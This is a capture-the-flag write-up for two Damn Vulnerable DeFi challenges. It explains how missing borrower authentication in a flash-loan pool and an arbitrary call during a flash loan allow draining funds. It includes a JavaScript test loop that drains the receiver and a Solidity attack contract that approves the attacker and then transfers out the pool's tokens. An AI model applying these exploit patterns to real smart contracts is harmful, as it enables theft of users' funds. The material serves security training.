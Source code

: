 - - -

In this challenge, we need Drain all ETH funds from the user's contract(FlashLoanReceiver.sol). In __NaiveReceiverLenderPool__ contract, the flashLoan() function does not check if borrower is a authorized user. Since flashLoan() do not authenticate, we can execute flashLoan with any contract address as borrower. We just need to repeat calling flashLoan function with user's contract address. Here is test code to exploit.

```solidity
    it('Exploit', async function () {
        for(let i=0; i<10;i++)
        this.pool.flashLoan(await this.receiver.address, 0)
    });
```

- - -

## CTF name: Damn Vulnerable DeFi
### Challenge name: Truster
### Challenge description:
    More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

    Currently the pool has 1 million DVT tokens in balance. And you have nothing.

    But don't worry, you might be able to take them all from the pool. In a single transaction.

- - -

In this challenge, we need to take all 1 million DVT token from the pool. This pool offers flashLoan and it allows any function call to be executed during the flash loan. Since we can call any function from __TrusterLenderPool contract__, we can call __approve()__ function of DVT token contract. Here is attack contract. 

```solidity
contract AttackTruster{

    function attackTrusterLenderPool(IERC20 token, TrusterLenderPool pool, address attacker) public beforeAfter(token, attacker){
        uint256 balance = IERC20(token).balanceOf(address(pool));
        bytes memory approveData = abi.encodeWithSignature("approve(address,uint256)", address(this), balance);

        pool.flashLoan(0, attacker, address(token), approveData);

        token.transferFrom(address(pool), attacker, balance);
    }
}
```

Here is how it goes. We first get the balance of DVT token of pool and get payload of `approve()` function that allows attacker can withdraw the DVT tokens. Since pool will be the caller of approve function, it does not revert. Then execute flashloan. The first argement of flashLoan function should be 0, so we do not have to payback. All after that, we can withdraw 1 million DVT token using __transferFrom()__.
